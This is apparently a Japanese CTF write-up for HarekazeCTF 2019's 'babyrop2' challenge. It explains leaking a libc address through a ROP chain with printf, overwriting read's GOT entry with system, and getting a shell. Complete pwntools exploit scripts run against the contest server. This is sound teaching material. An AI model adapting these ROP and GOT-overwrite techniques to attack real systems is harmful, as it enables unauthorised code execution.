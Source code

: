 // date: 2019-05-20

# はじめに
５月１８日、 [#HarekazeCTF](https://twitter.com/hashtag/HarekazeCTF) に「NekochanNano!」の一員として参加させていただきました。最後に５１０ポイントを集めることが出来、私たちは５２３チームが参加する中、６８位で終えました。

[「babyrop」のライトアップ](https://madousho.hatenadiary.jp/entry/2019/05/20/015653)も投稿してありますので、ぜひ前に読んできてくださいね！

# babyrop2

## プログラム解析

「babyrop」のときと同じように、接続できるIPアドレスとポート番号、そしてELFバイナリが手に入れます。加えて、今度は`libc.so.6`も渡されます。

いつもどおりに、`checksec`でセキュリティ機構を確認します。

![babyrop2 checksec](.res/babyrop2_1.png)

今回も、RELRO、Stack、そしてPIEが無い。Nice! !(^-^)!

また`radare2`で開き、main関数の逆アセンブリを読んでいきましょう〜

![babyrop2 disassembly](.res/babyrop2_2.png)

> 画像が小さすぎるのであれば右クリックし、Ctrlまた⌘キーを押しながら「画像を表示」で開いてください。

一般のユーザが実行すれば、「babyrop」の動作と何が違うか見極められないけど、逆アセンブリを読めばその違いがよくわかりますね。また言葉で説明してみます。

1. 在bss領域文字列を`edi`で指定、`printf`でメッセージを出力する
2. `read`で、0x100バイトまで入力をスタック変数(`rbp-0x20`)に読み込む
3. フォーマット形式と`rbp-0x20`を引数として用意、`printf`で前の入力を含めたメッセージを表示する

「babyrop」に比べると、大きいな違いがありますね！「babyrop」と違って、`system`や`/bin/sh`がプログラムに含められていないのです。なので、ROPを行えば、`system`にジャンプするために、呼び出す前にそのlibc以内のアドレスを計算することが必要となります。

`printf`を使えば、GOT領域からある関数のlibcポインターをリークすることが出来るはずです。そうしたら、既に有している`libc.so.6`を使い、`system`関数とその関数の距離を計算することが出来ます。では、`read`関数を狙おうと思います。

ROPで`printf`を呼び出せば、フォーマット形式を`rdi`にし、引数を`rsi`で示します。したがって`pop rsi`と`pop rdi`というガジェットが必要です。

![babyrop2 gadgets](.res/babyrop2_3.png)

良き。

```python
pop_rdi = p64(0x400733)
pop_rsi = p64(0x400731)
```

>【注意】`pop rsi`の直後に`pop r15`という命令があるので気をつけてください。このガジェットを利用するときに、`r15`に保存されるための何かも必ず用意するように。

次に`print`のPLTアドレスと`read`のGOTポインターを取りましょう。

![babyrop2 read@gots](.res/babyrop2_4.png)

```python
plt_printf = p64(0x4004f0)
got_read = p64(0x601020)
```

これで、`printf`にジャンプすることが出来、利用した上、`read`のGOTポインターをリーク、libc以内アドレスを掴むための準備が出来ました。

いまから試してみましょう。

```python
#!/usr/bin/python2
# -*- coding: utf-8 -*-
from pwn import *

pop_rdi = p64(0x400733)
pop_rsi = p64(0x400731)
got_read = p64(0x601020)
plt_printf = p64(0x4004f0)
str_format = p64(0x400770)

# ---- printf("%s", read@got) ----
payload = 'a' * 0x20
payload += 'b' * 8      # RBP
payload += pop_rdi + str_format
payload += pop_rsi + got_read + p64(0)
payload += plt_printf
# --------------------------------

sock = process(["./babyrop2"], env={"LD_PRELOAD":"./libc.so.6"})
sock.read()
sock.sendline(payload)
sock.readline()

addr_read = u64(sock.readline()[-8:-2] + "\x00\x00")
print("[*] readの位置をリークしました: %s" % hex(addr_read))

sock.close()
```

![babyrop leak](.res/babyrop2_5.png)

よし、成功！ (≧∇≦)/！！

なう、`objdump`を使い、リークしたreadと、system関数のベース位置を把握、距離を計算します。

![babyrop2 system](.res/babyrop2_6.png)

よってreadのアドレスから`0xb1ec0`を引いたら`system`のアドレスになります。

```python
addr_read = u64(sock.readline()[-8:-2] + "\x00\x00")
print("[*] readの位置をリークしました: %s" % hex(addr_read))

addr_system = addr_read - 0xb1ec0
print("[*] systemの位置を計算しました: %s" % hex(addr_system))
```

最後のステップですが、計算した`system`のアドレスをどうやってプログラムに入力するのでしょうか、どうやって実行するのでしょうか？

いま、実行できるのは`printf`、`read`、`setvbuf`と`main`だけです。この中から、任意ジャンプのために使えるものが２つ。どれなのかわかりますか？

→ `printf`と`read`です！`printf`の場合、前みたいにFSBを発生させ、任意アドレスを上書きすることが可能です。そして`read`の場合、書き込み先のアドレスを引数として渡せばそれだけで任意書き込みができます。任意書き込みから任意ジャンプをどうやってするのかというなら、GOT領域のポインターを書き換え、繋がりの関数を呼び出すのが一つの方法です。

というわけで、次の作戦を考えました。`read`を利用し、`read`関数そのもののGOTポインターを上書きし、直後に文字列を同時に書き込むことにしようと思います。上書きの後、固定なGOT領域アドレスに保存した文字列を`rdi`レジスタにし、再び`read`を呼び出すことで`system`を実行する、という作戦であります。

`read`のGOTアドレスが既にわかりますので、最後の要する情報が、`read`のPLTアドレスだけです。

![babyrop2 read@plt](.res/babyrop2_8.png)

ようやく準備がすべて整えました！！＼(^o^)／

## エクスプロイト作成

```python
#!/usr/bin/python2
# -*- coding: utf-8 -*-
from pwn import *

pop_rdi = p64(0x400733)
pop_rsi = p64(0x400731)
got_read = p64(0x601020)
plt_printf = p64(0x4004f0)
str_format = p64(0x400770)

# ---- printf("%s", read@got) ----
payload = 'a' * 0x20
payload += 'b' * 8      # RBP
payload += pop_rdi + str_format
payload += pop_rsi + got_read + p64(0)
payload += plt_printf
# --------------------------------

call_read = p64(0x400500)
str_binsh = p64(0x601028)       # got_readの直後

# ---- read(0, read@got, 0x100) ----
payload += pop_rdi + p64(0)
payload += pop_rsi + got_read + p64(0)
payload += call_read
# ----------------------------------

# ---- system("/bin/sh") -----------
payload += pop_rdi + str_binsh
payload += pop_rsi + p64(0) + p64(0)
payload += call_read
# ----------------------------------

# sock = process(["./babyrop2"], env={"LD_PRELOAD":"./libc.so.6"})
sock = remote("problem.harekaze.com", 20005)
sock.read()

print "[*] Payload size = %s" % hex(len(payload))
sock.sendline(payload)
sock.readline()

addr_read = u64(sock.readline()[-8:-2] + "\x00\x00")
print("[*] readの位置をリークしました: %s" % hex(addr_read))

addr_system = addr_read - 0xb1ec0
print("[*] systemの位置を計算しました: %s" % hex(addr_system))

sock.sendline(p64(addr_system) + "/bin/sh\x00")

sock.interactive()
sock.close()
```

## 実行してシェル奪い！

![babyrop2 pwn](.res/babyrop2_9.png)

今回は長かったのですが、最後まで読んで頂き、ありがとうございました！
